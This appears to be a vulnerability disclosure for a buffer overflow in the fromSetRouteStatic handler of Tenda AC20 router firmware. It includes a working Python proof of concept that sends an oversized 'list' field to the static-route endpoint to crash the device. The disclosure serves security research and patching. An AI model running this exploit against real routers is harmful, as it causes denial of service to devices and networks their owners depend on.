 A buffer overflow vulnerability in Tenda AC20 v16.03.08.05 occurs because the fromSetRouteStatic function does not check the length of input data, which can be exploited by an attacker to launch a denial of service attack.

<img width="415" height="160" alt="image" src="https://github.com/user-attachments/assets/a7ad44f9-8f6a-43bf-98ff-e19129fc78cd" />



POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/SetStaticRouteCfg"

cookie = {"Cookie":"password=12345"}
data = {"list": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
